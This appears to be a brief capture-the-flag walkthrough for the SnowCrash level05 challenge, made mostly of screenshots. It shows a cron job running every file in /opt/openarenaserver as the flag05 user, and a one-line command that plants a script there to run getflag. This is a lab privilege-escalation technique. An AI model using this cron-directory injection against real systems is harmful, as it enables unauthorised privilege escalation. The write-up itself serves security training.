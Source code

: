 ![image](https://github.com/user-attachments/assets/87ab7b93-e29c-4c7c-b8e9-cbdd9a9ad828)

`level05@SnowCrash:~$ find / -name mail 2>/dev/null`

![image](https://github.com/user-attachments/assets/517f1790-d4ca-4573-9c6b-2cd67210827d)

![image](https://github.com/user-attachments/assets/0fc7e992-9d27-4af9-85a1-0887a472aeec)

![image](https://github.com/user-attachments/assets/b292d9a3-f7c3-466a-8444-ef9119382e91)

`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

![image](https://github.com/user-attachments/assets/3fb1d7d0-947d-4781-a613-d2b851c505bf)

![image](https://github.com/user-attachments/assets/e7fa4a20-25c6-403f-a2cf-80ed8d4b9a4c)

```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
![image](https://github.com/user-attachments/assets/b87abe0b-a821-4aeb-8825-df6c51f46fdd)

![image](https://github.com/user-attachments/assets/3b8515a6-d804-49d6-9297-a6b91595bad1)

`level05@SnowCrash:/opt/openarenaserver$ echo "/bin/getflag > /tmp/test" > /opt/openarenaserver/test`

![image](https://github.com/user-attachments/assets/86d331f9-ec8a-41fa-87b3-868b45507df9)

![image](https://github.com/user-attachments/assets/bf7f7f7f-833a-4800-a8cd-6254228e1175)
